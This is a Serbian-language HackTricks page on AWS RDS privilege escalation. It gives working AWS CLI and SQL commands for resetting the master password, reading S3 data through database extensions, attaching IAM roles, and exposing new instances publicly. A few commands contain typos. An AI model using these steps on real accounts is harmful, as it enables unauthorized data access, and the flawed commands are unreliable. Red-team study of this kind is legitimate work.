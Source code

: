 # AWS - RDS Eskalacija privilegija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJEM**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## RDS - Relaciona baza podataka

Za više informacija o RDS-u pogledajte:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **modifikovati lozinku glavnog korisnika**, i prijaviti se unutar baze podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Bićete u mogućnosti da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).
{% endhint %}

**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) korisnik sa ovlašćenjem može se povezati sa instancom baze podataka.

### Zloupotreba RDS Role IAM ovlašćenja

#### Postgresql (Aurora)

{% hint style="success" %}
Ako prilikom izvršavanja **`SELECT datname FROM pg_database;`** pronađete bazu podataka nazvanu **`rdsadmin`** znate da se nalazite unutar **AWS postgresql baze podataka**.
{% endhint %}

Prvo možete proveriti da li je ova baza podataka korišćena za pristup nekoj drugoj AWS usluzi. To možete proveriti posmatrajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`** možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa nad S3** (postoje i druge ekstenzije poput **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete videti da li **klaster ima bilo koji IAM Role priložen** u polju **`AssociatedRoles`**. Ako ima, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imenovanja uloge** (ili ako možete dobiti **dozvole** uloge) možete **pretpostaviti** kakav dodatni pristup baza podataka ima.

Sada, da biste **pročitali fajl unutar kante** morate znati punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako biste imali **sirove AWS akreditive** takođe biste ih mogli koristiti za pristupanje S3 podacima sa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **ne mora da menja bilo koji parametar grupe** da bi mogao da pristupi S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da se nalazite unutar **AWS RDS mysql baze podataka**.
{% endhint %}

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive poput **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** imaju vrednosti, možete pretpostaviti da je baza podataka spremna za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete proveriti da li klaster ima bilo koji **povezani role**, što obično znači pristup AWS uslugama).

Sada, da biste **pročitali fajl unutar bucket-a** morate znati punu putanju. Možete ga pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili modifikuje podatke unutar instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Imajte na umu da neki DB-ovi zahtevaju dodatne konfiguracije, kao što je Mysql, koji mora navesti ARN uloge u grupama parametara takođe.

### `rds:CreateDBInstance`

Samo sa ovlašćenjem, napadač bi mogao da kreira **novu instancu unutar klastera** koja već postoji i ima priloženu **IAM ulogu**. Neće moći da promeni lozinku glavnog korisnika, ali bi mogao da izloži novu bazu podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **kreirati novu RDS instancu sa određenom ulogom pridruženom**. Napadač tada može potencijalno **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

{% hint style="warning" %}
Neophodni zahtevi uloge/instance profila za pridruživanje (od [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil mora postojati u vašem nalogu.
* Profil mora imati IAM ulogu koju Amazon EC2 može pretpostaviti dozvole.
* Ime instance profila i povezano ime IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene modifikacije podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili modifikuje podatke unutar instance.

{% hint style="warning" %}
DB instanca mora biti van klastera za ovo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

